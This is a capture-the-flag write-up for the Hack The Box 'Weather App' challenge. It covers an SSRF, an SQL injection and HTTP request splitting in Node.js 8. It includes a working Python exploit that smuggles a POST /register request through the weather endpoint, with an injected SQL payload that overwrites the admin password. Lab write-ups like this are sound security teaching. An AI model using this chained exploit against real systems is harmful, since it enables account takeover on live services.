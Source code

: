 # [Weather App](https://app.hackthebox.com/challenges/Weather%20App)

## Vulnerabilities

request splitting vulnerability in nodejs 8

## CHALLENGE DESCRIPTION

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️

## Analysis

read source code:

- Nodejs, express framework: [good express framework tutorial](https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction)
- Sqlitedb

Summary:

- if we can log in with admin account, we can get the flag. The admin account is initialized with a random password.
- register function has sqli vulnerability but requires client address is 127.0.0.1 otherwise 401
- `/api/weather` has ssrf vulnerability

**Detected SQLi:**
While reading the source code I found a strange line, the register query is not using prepare function like below SQL function:

![detect-sqli.png](./img/challenge-3-detect-sqli.png)

![localhost-required.png](./img/challenge-3-localhost-required.png)
However, the client's ip address needs to be 127.0.0.1 to be allowed to use the registration function, tried fake with `X-Forwarded-For` and `X-Custom-IP-Authorization`, both failed.

**Detected ssrf in `/api/weather`:**
![detect-ssrf-1.png](./img/challenge-3-detect-ssrf-1.png)
![detect-ssrf-2.png](./img/challenge-3-detect-ssrf-2.png)
![detect-ssrf-3.png](./img/challenge-3-detect-ssrf-3.png)

The idea is to use the ssrf vulnerability at the `/api/weather` endpoint to the `register` endpoint to bypass 127.0.0.1. But the `/api/weather` endpoint only makes get requests, so it doesn't work.

## Request splitting

At the nodejs version 8, there is a vulnerability called request-splitting.

This vulnerability allows the hacker to append another HTTP request after the base one.

Example:

```url
http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private')
```

in nodejs, it looks like this:

```url
http.get('http://127.0.0.1:8000/?param=xĠHTTP/1.1čĊHost:{Ġ}127.0.0.1:8000čĊčĊGETĠ/private')
```

but before this request is put in the wire, everything is encoded with latin1. the problem here is that `\u{010D}` is become to `\u{0D}`, which is the `\r` character, a special charracter in HTTP.

```js
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```

|||
|--|--|
|%20|space|
|%0D|\r|
|%0A|\n|

## Solutions

python code to send `request splitting` request:

```python
import requests

s = '\u0120' #space
r = '\u010D' #\r
n = '\u010A' #\n
rn = r + n

host = 'http://165.22.115.189:31711'

i_username = 'admin'
i_password = "test') ON CONFLICT(username) DO UPDATE SET password = 'test';--"
i_password = i_password.replace(' ', '%20').replace('\'', '%27') #(1)
len_body = 19 + len(i_username) + len(i_password)

fake_endpoint = "127.0.0.1/" + s + 'HTTP/1.1' + rn #(2)
fake_endpoint += rn
fake_endpoint += 'POST' + s + '/register' + s + 'HTTP/1.1' + rn
fake_endpoint += 'Host:' + s + '127.0.0.1' + rn
fake_endpoint += 'Content-Type:' + s + 'application/x-www-form-urlencoded' + rn
fake_endpoint += 'Content-Length:' + s + str(len_body) + rn
fake_endpoint += rn
fake_endpoint += 'username=' + i_username + '&password=' + i_password + rn
fake_endpoint += rn
fake_endpoint += 'GET' + s

resp = requests.post(host + '/api/weather', json={"endpoint":fake_endpoint,"city":"Hanoi","country":"VN"})
```

note:

- (1): must replace space to `%20` or `\u0120`, replace `'` to `%27` or `\u0127`
- (2): must have `/` after 127.0.0.1

## References

<https://twitter.com/YShahinzadeh/status/1039396394195451904/photo/1>
<https://hackerone.com/reports/409943>
<https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>

writeup: <https://infosec.itsmeuday.com/blog/htb_weather_app>

learn:

- <https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction>

